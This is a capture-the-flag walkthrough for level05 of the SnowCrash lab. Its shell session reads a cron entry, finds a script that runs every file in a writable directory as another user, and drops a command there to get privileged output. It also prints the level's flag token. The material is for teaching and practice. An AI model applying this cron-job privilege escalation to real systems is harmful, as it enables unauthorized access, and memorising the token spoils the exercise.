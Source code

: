 # Level05

`You have new mail.` in the shell once logged.

found a file
```shell
level05@SnowCrash:~$ find / -iname level05 2>/dev/null
/var/mail/level05
/rofs/var/mail/level05
level05@SnowCrash:~$ find / -user flag05 2>/dev/null
/usr/sbin/openarenaserver
/rofs/usr/sbin/openarenaserver
level05@SnowCrash:~$ cat /var/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
level05@SnowCrash:~$ cat /usr/sbin/openarenaserver 
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```
So we have script run as `flag05` every 2 minutes which execute all script in `/opt/openarenaserver` directory and delete it.
Try to create a file in `/opt/openarenaserver/` and it gets deleted. So we can create a script which run getflag.

```shell
level05@SnowCrash:~$ which getflag
/bin/getflag
level05@SnowCrash:~$ echo "/bin/getflag > /tmp/level05.txt" > /opt/openarenaserver/flag.sh
level05@SnowCrash:~$ ls /opt/openarenaserver/
flag.sh
level05@SnowCrash:~$ cat /tmp/level05.txt
Check flag.Here is your token : viuaaale9huek52boumoomioc
```